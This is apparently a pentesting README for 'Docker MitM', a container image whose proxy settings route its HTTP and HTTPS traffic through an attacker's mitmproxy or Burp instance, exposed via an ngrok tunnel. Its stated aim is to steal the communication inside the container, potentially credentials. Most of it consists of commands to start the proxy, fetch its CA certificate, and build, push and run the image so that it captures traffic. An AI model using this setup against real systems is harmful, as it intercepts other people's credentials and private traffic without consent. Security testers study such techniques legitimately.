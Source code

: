 # Docker MitM

This is a container prepared with env variables to **proxy HTTP traffic from the container to your burp proxy** to steal the communication occurring inside of it (potentially credentials).

This is useful in environments where:

1. You can configure the Docker image to use
2. Some interesting connections are created from the container and you want to check them

This Docker image is public in **docker.io/carlospolop/docker-mitm:v6** (This would be useless for you as your proxy ad cert will be different).

### Start MitM proxy

```bash
# Install proxy
pip3 install mitmproxy

# Get CA certificate
cat ~/.mitmproxy/mitmproxy-ca-cert.pem

# Start listening
mitmproxy --listen-port 8000 [--set block_global=false] [--allow-hosts "github.com"] [--ignore-hosts "169.254.169.254|169.254.170.2|amazonaws.com"]
```

### Create Docker image

**REMEMBER TO SET THE MITMPROXY CERTIFICATE & CHANGE THE VALUES OF `https_proxy` and `http_proxy` in the `Dockerfile` with the hostname and port where the proxy will be listening**

**Important**: It's possible that the binary you are doing a MitM has certificate pinning. This will probably break the binary and won't allow you to continue capturing other requests. In that case use the params `--allow-hosts` (if you know which host you want to attack) or `--ignore-hosts` to ignore the one giving problems.

**Important2**: If are using this in cloud, it might be possible that HTTP requests are being done to the metadata service. In that case you potentially DON'T want to set the `http_proxy` environment variable, to avoid doing a MitM to those requests (or maybe you could just use `--ignore-hosts`).



```bash
# Get ngrok address
ngrok tcp 8000 #You could use this address as proxy in the env variables

# Build (for change your dockerhub username)
docker build -t docker-mitm .
docker tag docker-mitm carlospolop/docker-mitm:v06-01-2023
docker push carlospolop/docker-mitm:v06-01-2023

# Just running apt-get update you should start capturing traffic
docker run -it docker-mitm apt-get update
# Or accessing github.com via https
docker run -it docker-mitm curl https://github.com

# Upload to docker hub 
docker login
docker tag docker-mitm carlospolop/docker-mitm:v06-01-2023
docker push carlospolop/docker-mitm:v06-01-2023
```
